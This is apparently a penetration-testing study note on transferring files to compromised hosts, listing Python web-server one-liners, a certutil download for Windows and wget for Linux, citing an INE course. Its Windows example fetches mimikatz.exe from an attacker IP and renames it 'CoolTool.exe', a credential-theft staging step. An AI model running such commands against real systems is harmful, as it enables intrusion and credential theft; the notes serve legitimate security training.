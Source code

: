 # File Transfer

* [Python Web Server](#python-web-server)
* [Transferring Files To Windows Targets](#transferring-files-to-windows-targets)
* [Transferring Files To Linux Targets](#transferring-files-to-linux-targets)
* [References](#references)

******************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
******************************************************************************

## Python Web Server

### Python2
```
python -m SimpleHTTPServer [PORT]
```
  
### Python3
```
python3 -m http.server [PORT]
```

***********************************************************************

## Transferring Files To Windows Targets

```
certutil -urlcache -f [URL-ADDRESS-PATH] [OUTFILE]
```
Example:  
```
certutil -urlcache -f http://10.10.5.2/mimikatz.exe CoolTool.exe
```

***********************************************************************

## Transferring Files To Linux Targets

If you can't open a new tab in the terminal, but need multiple tabs:
```
tmux
```

```
wget [URL-ADDRESS-PATH]
```

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
